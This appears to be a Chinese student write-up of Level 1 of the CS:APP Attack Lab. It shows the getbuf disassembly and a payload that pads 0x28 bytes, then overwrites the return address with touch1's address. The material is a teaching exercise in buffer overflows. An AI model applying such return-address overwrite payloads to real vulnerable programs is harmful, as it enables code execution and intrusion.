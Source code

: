 # Part I: Code Injection Attacks
由于Lab程序编译平台比较老，运行时会出现segment fault。可以自己链接一个printf函数来解决这个问题。详细见[Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04](https://blog.rijuyuezhu.top/posts/db646f34/)

## Level 1
阅读`getbuf`函数反汇编代码可以发现调用时分配了`0x28`大小的栈空间，该空间包括了`BUFFER_SIZE`指定的空间大小和编译器预留的空间。再往上`0x8`字节即为返回地址。输入字符串覆盖该地址即可。
```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
```
查找`touch1`函数的地址为`0x4017c0`, 小端表示并扩展到`0x8`字节得到
```
c0 17 40 00 00 00 00 00
```
前面随便填充`0x28`字节的字符即可
